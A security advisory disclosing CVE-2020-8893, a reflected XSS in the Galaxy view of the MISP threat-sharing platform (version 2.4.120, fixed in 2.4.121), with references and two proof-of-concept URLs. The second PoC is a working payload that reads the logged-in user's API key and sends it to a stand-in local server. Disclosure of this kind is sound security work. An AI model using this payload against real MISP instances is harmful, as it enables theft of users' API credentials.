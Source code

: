 # MISP - Malware Information Sharing Platform
## Reflected XSS in Galaxy view

|  |  |
|---|---|
| **Vulnerability** | Reflected XSS in Galaxy view | 
| **Vendor** | CIRCL (Open Source) |
| **Product** | MISP - Malware Information Sharing Platform & Open Standards For Threat Information Sharing - https://www.misp-project.org/ |
| **Vulnerable version** | 2.4.120 |
| **Fixed version** | 2.4.121 |
| **CVE** | CVE-2020-8893 |
| **CVSS Score** | 6.1 Medium |
| **CVSS Vector** | CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N |

## References
* https://www.misp-project.org/2020/02/12/MISP.2.4.121.released.html
* https://github.com/MISP/MISP/commit/3d982d92fd26584115c01f8c560a688d1096b65c
* https://nvd.nist.gov/vuln/detail/CVE-2020-8893

## Description

### PoC
Proof of concept alert box:
```
    https://MISP_URL/galaxies/view/188/searchall:a%22)%3balert(1);;$.get(%22http%3a/0.0.0.0/www
```

### PoC
Proof of concept of API key extraction to localhost web server:
```
    https://MISP_URL/galaxies/view/188/searchall:a")%3b$.get('%5c%5cusers%5c%5cview%5c%5cme',function(d){pos_start+%3d+d.indexOf('<h2>User<')%2b4%3bpos_end%3dd.indexOf(decodeURI('%253Cdiv%2520class%3d%2522actions%2520debugOff%2520sideMenu%2522%253E'),pos_start)%3bif(pos_start>pos_end)pos_end%3dpos_start*99%3binterested%3dd.substring(pos_start,pos_end)%3b$.get('http:%5c%5c%5c%5c127.0.0.1%5c%5c'%2bescape(interested));});$.get("http%3a%5c%5c0.0.0.0%5c%5cwww
```

